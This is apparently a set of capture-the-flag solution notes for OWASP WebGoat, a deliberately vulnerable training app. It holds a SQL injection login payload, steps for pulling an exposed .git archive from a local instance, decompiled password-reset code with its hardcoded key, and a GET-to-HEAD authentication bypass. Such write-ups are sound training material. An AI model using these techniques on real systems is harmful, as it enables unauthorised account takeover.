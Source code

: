 # Admin lost password
1. Download image from the website.
2. $ strings logo.png
3. in the output find:

admin:!!webgoat_admin_7753!!

# Without password
1. Simple SQL Injection
2. type in password: 'OR 1=1;--

# Admin password reset
1. Check here: https://github.com/WebGoat/WebGoat/blob/develop/src/main/java/org/owasp/webgoat/lessons/challenges/challenge7/Assignment7.java
2. find that there is 

@GetMapping(value = "/challenge/7/.git", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
@ResponseBody
public ClassPathResource git() {
	return new ClassPathResource("challenge7/git.zip");
}

3. download git.zip from http://localhost:8080/WebGoat/challenge/7/.git
4. open directory
5. $ git log
6. $ git restore *
7. decompile PasswordResetLink.class on http://www.javadecompilers.com/

import java.util.Random;

// 
// Decompiled by Procyon v0.5.36
// 

public class PasswordResetLink
{
    public String createPasswordReset(final String s, final String s2) {
        final Random random = new Random();
        if (s.equalsIgnoreCase("admin")) {
            random.setSeed(s2.length());
        }
        return scramble(random, scramble(random, scramble(random, MD5.getHashString(s))));
    }
    
    public static String scramble(final Random random, final String s) {
        final char[] charArray = s.toCharArray();
        for (int i = 0; i < charArray.length; ++i) {
            final int nextInt = random.nextInt(charArray.length);
            final char c = charArray[i];
            charArray[i] = charArray[nextInt];
            charArray[nextInt] = c;
        }
        return new String(charArray);
    }
    
    public static void main(final String[] array) {
        if (array == null || array.length != 2) {
            System.out.println("Need a username and key");
            System.exit(1);
        }
        final String str = array[0];
        final String s = array[1];
        System.out.println("Generation password reset link for " + str);
        System.out.println("Created password reset link: " + new PasswordResetLink().createPasswordReset(str, s));
    }
}

8. So we will need username (admin) and key (?)
9. $ git diff f9400 ac937c -> shows taht there is a change in bin PasswordResetLink
10. decompile this version of the PasswordResetLink bin

/* Decompiler 5ms, total 161ms, lines 38 */
import java.util.Random;

public class PasswordResetLink {
   public String createPasswordReset(String var1, String var2) {
      Random var3 = new Random();
      if (var1.equalsIgnoreCase("admin")) {
         var3.setSeed((long)var2.length());
      }

      return scramble(var3, scramble(var3, scramble(var3, MD5.getHashString(var1))));
   }

   public static String scramble(Random var0, String var1) {
      char[] var2 = var1.toCharArray();

      for(int var3 = 0; var3 < var2.length; ++var3) {
         int var4 = var0.nextInt(var2.length);
         char var5 = var2[var3];
         var2[var3] = var2[var4];
         var2[var4] = var5;
      }

      return new String(var2);
   }

   public static void main(String[] var0) {
      if (var0 == null || var0.length != 1) {
         System.out.println("Need a username");
         System.exit(1);
      }

      String var1 = var0[0];
      String var2 = "!!keykeykey!!";
      System.out.println("Generation password reset link for " + var1);
      System.out.println("Created password reset link: " + (new PasswordResetLink()).createPasswordReset(var1, var2));
   }
}

11. here we have password (!!keykeykey!!)
12. then $ java PasswordResetLink admin -> 375afe1104f4a487a73823c50a9292a2
13. type: gabriel@webgoat.com in reset field
14. open WebWolf
15. see reset link, click it
16. replace url with 375afe1104f4a487a73823c50a9292a2 
    
# Without account
1. open Burp
2. replace GET in request with HEAD